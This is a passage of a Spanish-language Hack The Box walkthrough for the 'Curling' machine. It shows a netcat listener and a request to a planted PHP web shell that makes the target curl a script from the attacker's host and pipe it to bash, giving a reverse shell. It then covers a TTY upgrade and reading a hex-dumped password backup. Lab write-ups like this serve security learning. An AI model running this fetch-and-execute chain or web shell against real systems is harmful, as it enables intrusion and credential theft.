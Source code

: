 Nos preparamos y nos ponemos a la escucha con `nc -vnlp 443` para recibir la shell.
Ahora paso clave: Pipearlo con `BASH`
Para lograr que se ejecute ahora el codigo:
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=curl%20http//10.10.14.5/Shell.sh|bash"
```
Y de este modo conseguimos nuestra consola como `www-data`
```bash
# nc -vlnp 443 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.150] 47316
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/beez3$ whoami
www-data
```
Hacemos un tratamiento de la tty para poder movernos adecuadamente:
``` bash
www-data@curling:/$ "script /dev/null -c bash"
script /dev/null -c bash
Script started, file is /dev/null
www-data@curling:/$ "^Z"        #Ctrl+z
zsh: suspended  nc -vlnp 443
                                                                                                                                                           
┌──(root💀K0)-[/home/…/HTB/Curling/content]
└─# "stty raw -echo;fg  "                                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -vlnp 443
                              "reset"
reset: unknown terminal type unknown
Terminal type? "xterm"
www-data@curling:/$ "export TERM=xterm"
www-data@curling:/$ "export SHELL=bash"
www-data@curling:/$ 
```
Nos movemos a la carpeta `/home/floris`:
```bash
www-data@curling:/home$ ls -l floris/
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
``` 
Vemos que tenemos 1 directorio y dos archivos, del cual nosotros como `www-data` solo podemos leer el password_backup:
```hex
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```
